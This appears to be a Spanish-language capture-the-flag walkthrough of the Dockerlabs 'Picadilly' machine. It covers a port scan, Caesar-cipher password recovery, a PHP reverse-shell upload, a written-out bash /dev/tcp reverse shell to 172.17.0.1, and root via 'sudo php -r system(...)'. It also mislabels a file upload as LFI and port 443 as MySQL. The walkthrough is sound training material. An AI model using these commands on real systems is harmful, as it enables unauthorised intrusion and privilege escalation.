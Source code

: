 Desplegamos la máquina vulnerable poniendo en la terminal la línea de comandos **bash auto_deploy.sh picadilly.tar** en la carpeta donde se encuentre el contenido extraído del zip.<br>
<ins>La dirección IP de la máquina a vulnerar siempre es la 172.17.0.2</ins>.

  ![image](https://github.com/user-attachments/assets/4fc708f6-52c0-4b72-bfdb-ceb54a13b974)

Ahora, realizamos un escaneo de puertos de la máquina para revisar los puertos abiertos existentes y los posibles servicios a atacar mediante el uso de esos puertos.

  ![image](https://github.com/user-attachments/assets/1848f869-e579-4b05-a408-f0016fda72f0)

Podemos ver que se encuentran abiertos los puertos ***80*** y ***443***, correspondientes a los servicios ***HTTP*** y ***MySQL*** (en este caso, ya que el puerto 443 corresponde al servicio HTTPS).

Nos dirigimos al navegador y en el buscador ponemos http://172.17.0.2:80.

  ![image](https://github.com/user-attachments/assets/19cd9d8c-2ce2-48e1-bf19-11f1ae5ef6ca)

Aparece un único archivo de texto llamado "**backup.txt**". Lo abrimos para ver su contenido:

  ![image](https://github.com/user-attachments/assets/dd609a1a-9ce1-41b8-9e2d-835f4f947e76)

Se nos muestra lo que parece ser un posible usuario del sistema (denominado "**mateo**") con una contraseña encriptada. A simple vista, no sabemos el lenguaje de encriptación que se ha empleado para la contraseña; pero si nos percatamos en la pista que se nos da, podemos saber que se trata del **Cifrado César**, por lo que ahora podemos decodear la clave.

Vamos a esta página de [Dcode.fr](https://www.dcode.fr/cifrado-cesar) y desciframos la contraseña:

  ![image](https://github.com/user-attachments/assets/3a30025a-6e89-461b-903f-2da3f9679db2)

La contraseña del usuario "mateo" parece ser "**easycrxazy**".

Buscamos en el navegador https://172.17.0.2:

  ![image](https://github.com/user-attachments/assets/361129e2-f551-454a-b9ac-6bc038d1487e)

Se nos muestra una página en la que podemos subir archivos en forma de publicaciones que se verán en la página web. Sabiendo esto, podemos ejecutar un **ataque LFI** (*Local File Inclusion*), subiendo un archivo PHP que contenga el código necesario para realizar una reverse shell.

  ![image](https://github.com/user-attachments/assets/6158f886-b498-4d5c-a5da-d19ccd9696fc)

Una vez subido, nos dirigimos al subdirectorio web "**/uploads**" y arrancamos la reverse shell:

  ![image](https://github.com/user-attachments/assets/66cc4112-4a36-4014-94ab-096264176e6d)

Nos ponemos con NetCat en escucha  por el puerto 443:

  ![image](https://github.com/user-attachments/assets/d7ed68d9-0802-42b3-8126-83d9a576b360)

  ![image](https://github.com/user-attachments/assets/088e4849-6e24-4d9b-b2e7-15c03ead370d)

Ahora escribimos en la terminal **bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"** para evitar que se nos cierre la sesión remota.

  ![image](https://github.com/user-attachments/assets/4c058228-cf0f-4a2b-a8a8-a3986e0bda67)

  ![image](https://github.com/user-attachments/assets/a3058931-03d9-476e-9c2d-98f2c1af319c)

Hemos accedido a la máquina víctima como el usuario *www-data*.

Luego, vamos a intentar acceder con las claves obtenidas al principio del laboratorio (***usuario: mateo, contraseña: easycrxazy***).

  ![image](https://github.com/user-attachments/assets/9ffa004c-0795-4b41-a4fb-465d2b9d7e1a)

Al ingresar las claves, desgraciadamente no conseguimos acceder a la terminal como este usuario. Probamos a eliminar la letra "x" siendo la contraseña ahora "**easycrazy**".

  ![image](https://github.com/user-attachments/assets/3a105af1-52e1-4e53-9e89-4f7de6cd6af8)

Ha funcionado, por lo que ahora somos el usuario "mateo".

Miramos con el comando **sudo -l** los archivos binarios que puede ejecutar el usuario actual de manera privilegiada.

  ![image](https://github.com/user-attachments/assets/0fbc1bff-61a7-45c3-9730-219feb908308)

El usuario puede ejecutar el binario /usr/bin/php como usuario root, sin necesidad de insertar su contraseña en la CLI.

Buscamos en [GTFOBins](https://gtfobins.github.io/) acerca del binario ***/usr/bin/php***.

  ![image](https://github.com/user-attachments/assets/fcd429c5-5897-4e17-8f67-c4bc669166cb)

**CMD="/bin/sh"<br>
sudo php -r "system('$CMD');"**

  ![image](https://github.com/user-attachments/assets/d8cc9951-70e1-4c1a-ab84-460ad0fb3850)

  ![image](https://github.com/user-attachments/assets/357c870d-d73a-4362-bd25-2eff328ed62e)

Finalmente, hemos conseguido acceder al sistema como el usuario root, por lo que ahora contamos con todos los privilegios existentes.

Una vez finalizamos con la máquina de Dockerlabs presionamos **Ctrl+C** para eliminarla.

  ![image](https://github.com/user-attachments/assets/135c993a-d599-4622-8f1e-1535c08ad8e3)

